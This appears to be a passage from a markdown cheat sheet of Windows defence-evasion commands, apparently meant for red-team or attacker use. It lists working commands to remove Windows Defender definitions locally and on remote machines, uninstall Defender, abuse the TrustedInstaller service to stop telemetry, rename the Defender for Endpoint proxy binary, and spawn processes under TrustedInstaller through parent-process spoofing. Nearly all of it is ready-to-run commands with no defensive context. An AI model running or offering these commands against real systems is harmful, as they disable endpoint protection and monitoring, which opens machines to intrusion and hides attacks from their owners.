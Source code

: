 ### 2.2 - Remove Definitions

#### 2.2.1 - Command Prompt

```
C:\> "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -all

C:\> winrs -remote:<IP> "\"C:\Program Files\Windows Defender\MpCmdRun.exe\" -RemoveDefinitions -all"
```

#### 2.2.2 - Powershell

```
PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -all }
```

### 2.3 - Uninstall

#### 2.3.1 - Powershell

```
PS C:\> Uninstall-WindowsFeature -Name Windows-Defender

PS C:\> Remove-WindowsFeature -Name Windows-Defender -Restart
```

## 03 - Disable Advanced Threat Protection

### 3.1 - Disable Endpoint

#### 3.1.1 - Command Prompt

```
C:\> sc config TrustedInstaller binpath="cmd /c sc stop diagtrack & sc config diagtrack binpath='useless value'" && sc start TrustedInstaller

C:\> whoami /groups | findstr Trusted

C:\> rename "C:\Program Files\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" SenseCncProxi.exe
```

#### 3.1.2 - Powershell

```powershell
PS C:\> Set-NtTokenPrivilege SeDebugPrivilege
Start-Service TrustedInstaller
$process = Get-NtProcess -Name TrustedInstaller.exe
$token = $process.OpenToken()
$token.Groups | Where-Object ($_.$id.Name -match "TrustedInstaller")
$proc = New-Win32Process cmd.exe -CreationFlags NewConsole -ParentProcess $process
```
